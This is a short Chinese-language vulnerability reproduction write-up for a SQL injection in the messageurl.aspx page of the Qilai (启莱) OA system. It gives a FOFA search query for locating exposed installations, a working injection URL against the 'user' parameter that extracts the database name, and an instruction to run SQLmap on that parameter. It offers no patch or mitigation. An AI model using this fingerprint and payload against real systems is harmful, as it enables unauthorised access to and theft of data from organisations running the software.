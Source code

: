 # 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## FOFA

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

![qilai-2-1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-2-1.png)

存在SQL注入的文件为 messageurl.aspx

```plain
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-2-2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-2-2.png)

使用SQLmap对参数 user 进行注入

![qilai-2-3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-2-3.png)